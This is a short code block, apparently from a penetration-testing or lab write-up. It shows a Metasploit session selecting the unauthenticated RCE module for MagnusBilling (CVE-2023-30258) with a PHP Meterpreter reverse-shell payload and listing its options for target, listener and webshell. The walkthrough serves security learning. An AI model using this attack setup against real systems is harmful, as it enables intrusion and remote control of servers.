 ```jsx

msf6 > use 0
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > show options

Module options (exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-meta
                                         sploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /mbilling        yes       The MagnusBilling endpoint URL
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host

   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an add
                                       ress on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.

   When TARGET is 0:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   WEBSHELL                   no        The name of the webshell with extension. Webshell name will be rando
                                        mly generated if left unset.

Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   PHP

```
